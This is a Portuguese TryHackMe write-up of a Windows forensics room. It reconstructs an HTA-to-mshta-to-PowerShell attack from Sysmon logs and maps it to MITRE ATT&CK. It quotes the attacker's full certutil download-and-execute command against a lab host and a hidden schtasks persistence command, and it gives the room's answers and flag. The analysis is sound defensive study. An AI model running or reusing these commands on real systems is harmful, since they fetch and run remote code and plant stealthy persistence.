





# TryHackMe – Handbook for the Recently Compromised (Writeup)

**Room:** https://tryhackme.com/room/handbookfortherecentlycompromised
**Dificuldade:** Easy
**Categoria:** Forense Windows / Análise de logs (EVTX, Sysmon)
**Cenário:** Uma estação de trabalho Windows foi sinalizada por atividade incomum. O objetivo é analisar os logs de eventos, seguir a sequência de ações suspeitas, reconstruir a linha do tempo do ataque e ligar as ações às técnicas do MITRE ATT&CK.

**Host investigado:** `THM-JCOLLINS`
**Usuário comprometido:** `THM-JCOLLINS\j.collins`

---

## Resumo das respostas

| # | Pergunta (resumo) | Resposta |
|---|-------------------|----------|
| 1 | Nome completo do executável do utilitário usado para baixar o arquivo | `certutil.exe` |
| 2 | URL completa usada para baixar o payload | `http://pipeline-cdn.thm:8088/pipeline-sync.ps1` |
| 3 | Sub-técnica MITRE ATT&CK do abuso do host de scripts que executou o anexo inicial | `T1218.005` (System Binary Proxy Execution: Mshta) |
| 4 | Sub-técnica MITRE ATT&CK da persistência | `T1053.005` (Scheduled Task/Job: Scheduled Task) |
| 5 | Flag | `THM{tH3_Gh0st_w1tH_Th3_M05T}` |

> Os textos das perguntas acima foram resumidos a partir das evidências. Confira o enunciado exato na sala, caso precise.

---

## Ambiente e preparação

Os logs foram analisados na VM da própria sala, no diretório:

```
~/Desktop/artifacts/tools
```

Os eventos do **Sysmon** (`Microsoft-Windows-Sysmon/Operational`) já estavam convertidos para JSON Lines (`sysmon.jsonl`), o que permite usar `grep` diretamente. Os campos mais úteis foram:

- `EventID` (1 = Process Create, 11 = File Create)
- `UtcTime`
- `Image` / `CommandLine`
- `ParentImage` / `ParentCommandLine`
- `User` e `CurrentDirectory`

---

## Task 1 – Utilitário usado para baixar o payload

### Metodologia

1. Procurei no `sysmon.jsonl` por eventos de criação de processo (Event ID 1) ligados a arquivos `.ps1`.
2. O evento da linha **34** mostra um `powershell.exe` oculto (`-nop -w hidden`) cujo processo pai é `mshta.exe`. O comando executado é:

```powershell
& ((gci C:\Windows\System32\certu*.exe)[0].FullName) -urlcache -f http://pipeline-cdn.thm:8088/pipeline-sync.ps1 $env:TEMP\pipeline-sync.ps1; powershell -ep bypass -f $env:TEMP\pipeline-sync.ps1
```

3. O nome do binário foi **ofuscado com wildcard** (`certu*.exe`) para fugir de detecções simples por string. Resolvendo o wildcard, o executável é o **CertUtil**.
4. O evento da linha **36** (Event ID 1) confirma:
   - `Image`: `C:\Windows\SysWOW64\certutil.exe`
   - `OriginalFileName`: `CertUtil.exe`
   - `CommandLine`: `certutil.exe -urlcache -f http://pipeline-cdn.thm:8088/pipeline-sync.ps1 C:\Users\J1B0B~1.COL\AppData\Local\Temp\pipeline-sync.ps1`



**Resposta:** `certutil.exe`

---

## Task 2 – URL completa do download

### Metodologia

A URL aparece destacada na linha de comando do evento 34 e se repete no evento 36 (certutil):

```
http://pipeline-cdn.thm:8088/pipeline-sync.ps1
```

Também há o evento Sysmon **Event ID 11** (File Create) da linha 37, em que o `certutil.exe` grava o arquivo no cache do Windows:

```
C:\Users\j.collins\AppData\Local\Microsoft\Windows\INetCache\IE\2YBVE1ZZ\pipeline-sync[1].ps1
```

Isso confirma que o download foi feito com a opção `-urlcache` do certutil.


**Resposta:** `http://pipeline-cdn.thm:8088/pipeline-sync.ps1`

---

## Task 3 – Sub-técnica MITRE do host de scripts que executou o anexo inicial

### Metodologia

1. No evento 34, o campo `ParentImage` é `C:\Windows\SysWOW64\mshta.exe`, e o `ParentCommandLine` abre o arquivo:

```
"C:\Windows\SysWOW64\mshta.exe" "C:\Users\j.collins\Downloads\pipeline-check.hta"
```

2. `pipeline-check.hta` é um **HTML Application (HTA)**, ou seja, o anexo inicial. Ele foi aberto pelo usuário (processo `explorer.exe` como pai do `mshta.exe`) e é executado pelo **Microsoft HTML Application Host (`mshta.exe`)**.
3. O abuso de `mshta.exe` para rodar arquivos HTA com JavaScript ou VBScript corresponde à técnica **System Binary Proxy Execution: Mshta**.



**Resposta:** `T1218.005`

> Observação: o enunciado fala em "Windows scripting host", mas o binário usado foi o `mshta.exe` (não o `wscript.exe` nem o `cscript.exe`). Por isso a sub-técnica é a T1218.005. Essa resposta foi consultada em uma IA e validada com os campos `ParentImage` e `ParentCommandLine` do Sysmon.

---

## Task 4 – Sub-técnica MITRE da persistência


### Metodologia

1. Procurei por termos relacionados à persistência com:

```bash
grep -Ein 'sync-cache|PipelineSync|THM\{' *.jsonl
```

2. O resultado (`sysmon.jsonl`, linha **41**, Event ID 1) mostra o `schtasks.exe` criando uma tarefa agendada:

```cmd
"C:\Windows\system32\schtasks.exe" /create /tn StudioPipelineSync /tr "powershell -nop -w hidden -f C:\Users\j.collins\AppData\Roaming\PipelineSync\pipeline-sync.ps1" /sc onlogon /rl highest /f
```

3. Indicadores principais:

| Parâmetro | Significado |
|-----------|-------------|
| `/create` | Cria uma tarefa agendada |
| `/tn StudioPipelineSync` | Nome da tarefa (nome "legítimo" para se disfarçar) |
| `/tr "powershell ... pipeline-sync.ps1"` | Executa o script do atacante, de forma oculta |
| `/sc onlogon` | Dispara a cada logon do usuário |
| `/rl highest` | Executa com o nível mais alto de privilégio disponível |
| `/f` | Força a criação, sobrescrevendo uma tarefa existente |

4. O processo pai é o `powershell.exe -ep bypass -f ...\Temp\pipeline-sync.ps1`, ou seja, o próprio script baixado foi quem criou a persistência.
5. O comando original no log de PowerShell (Event ID 4104) estava **ofuscado por concatenação de strings**, por exemplo `('S'+'tu'+'dioPi'+'pe'+'li'+'neSyn'+'c')`. O Sysmon registra a linha de comando já reconstruída, o que facilita a análise.



**Resposta:** `T1053.005` (Scheduled Task/Job: Scheduled Task)

---

## Task 5 – Flag

### Metodologia

Na busca com `grep`, uma string em Base64 foi encontrada nos artefatos. Para decodificá-la:

```bash
echo 'VEhNe3RIM19HaDBzdF93MXRIX1RoM19NMDVUfQ==' | base64 -d
```

Saída:

```
THM{tH3_Gh0st_w1tH_Th3_M05T}
```



**Flag:** `THM{tH3_Gh0st_w1tH_Th3_M05T}`

---

## Linha do tempo do ataque

Todos os horários estão em UTC, em **02/10/2026**, no host `THM-JCOLLINS`.

| Horário (UTC) | Event ID | Evento |
|---------------|----------|--------|
| 05:02:05.480 | 1 (Process Create) | `mshta.exe` abre `Downloads\pipeline-check.hta` e inicia um `powershell.exe` oculto (`-nop -w hidden`) que localiza o certutil por wildcard (`certu*.exe`) |
| 05:02:05.955 | 11 (File Create) | PowerShell cria `__PSScriptPolicyTest_*.ps1` em `%TEMP%` (teste de política de execução) |
| 05:02:06.830 | 1 (Process Create) | `certutil.exe -urlcache -f http://pipeline-cdn.thm:8088/pipeline-sync.ps1` grava `%TEMP%\pipeline-sync.ps1` |
| 05:02:06.955 | 11 (File Create) | `certutil.exe` cria `INetCache\IE\...\pipeline-sync[1].ps1` |
| 05:02:06+ | 1 (Process Create) | `powershell -ep bypass -f %TEMP%\pipeline-sync.ps1` executa o script baixado |
| 05:02:08.209 | 1 (Process Create) | `schtasks.exe /create /tn StudioPipelineSync ... /sc onlogon /rl highest /f` cria a persistência |

### Resumo da cadeia

```
pipeline-check.hta (anexo)
        │
        ▼
   mshta.exe  ──►  powershell.exe (oculto, -nop -w hidden)
                          │
                          ▼
                    certutil.exe -urlcache -f  ──►  pipeline-sync.ps1 (%TEMP%)
                                                          │
                                                          ▼
                                    powershell.exe -ep bypass -f pipeline-sync.ps1
                                                          │
                                                          ▼
                                    schtasks /create /tn StudioPipelineSync /sc onlogon
```

---

## Mapeamento MITRE ATT&CK

| Tática | Técnica | ID | Evidência |
|--------|---------|----|-----------|
| Execução | User Execution: Malicious File | T1204.002 | O usuário abriu o anexo `pipeline-check.hta` |
| Defense Evasion | System Binary Proxy Execution: Mshta | **T1218.005** | `mshta.exe` executando o arquivo HTA |
| Execução | Command and Scripting Interpreter: PowerShell | T1059.001 | `powershell -nop -w hidden`, `-ep bypass` |
| Command and Control | Ingress Tool Transfer | T1105 | `certutil -urlcache -f` baixando `pipeline-sync.ps1` |
| Defense Evasion | Obfuscated Files or Information | T1027 | `certu*.exe` por wildcard e nome da tarefa concatenado |
| Persistence / Privilege Escalation | Scheduled Task/Job: Scheduled Task | **T1053.005** | `schtasks /create ... /sc onlogon /rl highest` |

---

## Indicadores de comprometimento (IOCs)

| Tipo | Valor |
|------|-------|
| Host | `THM-JCOLLINS` |
| Usuário | `THM-JCOLLINS\j.collins` |
| URL | `http://pipeline-cdn.thm:8088/pipeline-sync.ps1` |
| Anexo inicial | `C:\Users\j.collins\Downloads\pipeline-check.hta` |
| Script do atacante | `%TEMP%\pipeline-sync.ps1` |
| Script persistente | `C:\Users\j.collins\AppData\Roaming\PipelineSync\pipeline-sync.ps1` |
| Tarefa agendada | `StudioPipelineSync` (`onlogon`, `highest`) |
| Binários abusados (LOLBins) | `mshta.exe`, `certutil.exe`, `powershell.exe`, `schtasks.exe` |

---

## Ferramentas utilizadas

- VM do TryHackMe (Ubuntu) com os artefatos em `~/Desktop/artifacts/tools`
- `grep` para busca nos logs Sysmon em JSONL
- `base64 -d` para decodificar a flag
- MITRE ATT&CK para o mapeamento de técnicas
 
 ---